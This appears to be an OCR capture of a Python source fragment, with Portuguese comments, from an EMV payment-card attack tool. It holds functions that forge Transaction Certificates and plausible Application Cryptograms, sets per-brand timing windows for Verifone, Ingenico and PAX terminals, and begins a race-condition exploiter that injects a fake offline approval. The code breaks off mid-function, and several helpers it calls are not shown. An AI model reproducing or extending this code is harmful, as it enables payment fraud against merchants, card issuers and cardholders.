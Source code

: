 ```python
    def generate_fake_tc(self, pan, atc):
        """
        Gera Transaction Certificate falso
        """
        # Build fake cryptogram
        fake_master_key = self.generate_session_key()
        fake_iad = os.urandom(8)  # Random IAD
        
        # Create TC structure
        tc_data = {
            'cid': 'TC',  # Transaction Certificate
            'atc': atc,
            'ac': self.calculate_fake_ac(fake_master_key, atc, fake_iad),
            'iad': fake_iad
        }
        
        return self.build_apdu_response(tc_data)
    
    def calculate_fake_ac(self, key, atc, iad):
        """
        Calcula Application Cryptogram falso plausível
        """
        # Use session key derivation similar to real cards
        session_key = self.derive_session_key(key, atc)
        
        # Build MAC input similar to real implementation
        mac_input = struct.pack('>H', atc) + iad + b'\x9F\x02\x06'  # Amount tag
        
        return hmac.new(session_key, mac_input, hashlib.sha1).digest()[:8]
    
    def exploit_timing_window(self, terminal_session):
        """
        Explora janela de timing específica do terminal
        """
        # Different terminals have different timing windows
        terminal_type = self.identify_terminal_type(terminal_session)
        
        timing_configs = {
            'verifone': {'window_ms': 45, 'offset_ms': 5},
            'ingenico': {'window_ms': 60, 'offset_ms': 10},
            'pax': {'window_ms': 40, 'offset_ms': 8}
        }
        
        config = timing_configs.get(terminal_type, {'window_ms': 50, 'offset_ms': 7})
        return config

# Advanced Race Condition Exploitation
class RaceConditionExploiter:
    def __init__(self):
        self.response_queue = queue.Queue()
        self.state_tracker = {}
        
    def setup_race_condition(self, transaction_id):
        """
        Configura condição de corrida para transação específica
        """
        # Thread 1: Monitor online response
        online_thread = threading.Thread(
            target=self.monitor_online_response,
            args=[transaction_id]
        )
        
        # Thread 2: Inject offline response
```